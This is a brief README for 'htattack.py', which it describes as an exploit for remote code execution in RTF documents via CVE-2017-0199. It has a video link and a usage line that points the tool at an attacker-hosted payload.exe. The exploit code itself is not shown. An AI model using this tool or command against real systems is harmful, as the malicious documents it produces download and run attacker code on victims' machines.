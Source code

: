 # htattack.py
An exploit implementation for RCE in RTF docs (CVE-2017-0199).

### Video (in Spanish):
    https://www.youtube.com/watch?v=0lDvclMrymM

### Usage:

    python htattack.py -u <http://[attacker-url]/payload.exe>
